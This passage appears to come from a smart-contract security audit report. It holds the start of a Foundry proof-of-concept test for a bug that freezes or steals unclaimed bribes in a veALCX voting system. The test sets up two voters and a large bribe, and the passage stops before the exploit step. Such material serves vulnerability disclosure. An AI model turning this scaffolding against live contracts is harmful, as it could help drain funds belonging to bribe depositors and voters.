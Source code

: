 
        
## Proof of concept
### Test Case (Foundry)

The test can be added to a new file under the current test suite `src/test/VotingPoC.t.sol`, then specify the file name in `FILE` flag under `Makefile` configuration. Run using `make test_file`

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.15;

import "./BaseTest.sol";

contract VotingPoCTest is BaseTest {
    address public alice;
    address public bob;

    function setUp() public {
        setupContracts(block.timestamp);

        // Setup Alice and Bob addresses
        alice = vm.addr(uint256(keccak256(abi.encodePacked('Alice'))));
        vm.label(alice, 'Alice');
        bob = vm.addr(uint256(keccak256(abi.encodePacked('Bob'))));
        vm.label(alice, 'Bob');
    }

    function testFreezingTheftOfUnclaimedBribes() public {
        uint256 period = minter.activePeriod();
        hevm.warp(period + 1 days);

        uint256 aliceTokenId = createVeAlcx(alice, TOKEN_1, 1, true);
        uint256 bobTokenId = createVeAlcx(bob, TOKEN_1, 1, true);

        address bribeAddress = voter.bribes(address(sushiGauge));
        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 10000;

        address[] memory bribes = new address[](1);
        bribes[0] = address(bribeAddress);
        address[][] memory tokens = new address[][](2);
        tokens[0] = new address[](1);
        tokens[0][0] = bal;


        // Reward amount
        uint256 rewardAmount = TOKEN_100K;
        // Notify bribe for reward amount
        createThirdPartyBribe(bribeAddress, bal, rewardAmount);

        // Alice Vote
        hevm.prank(alice);
        voter.vote(aliceTokenId, pools, weights, 0);
        // Bob Vote
        hevm.prank(bob);
        voter.vote(bobTokenId, pools, weights, 0);


        // Just right before the next epoch started
        hevm.warp(period + 2 weeks - 1);
        // Check the total votes of current epoch before inflation
```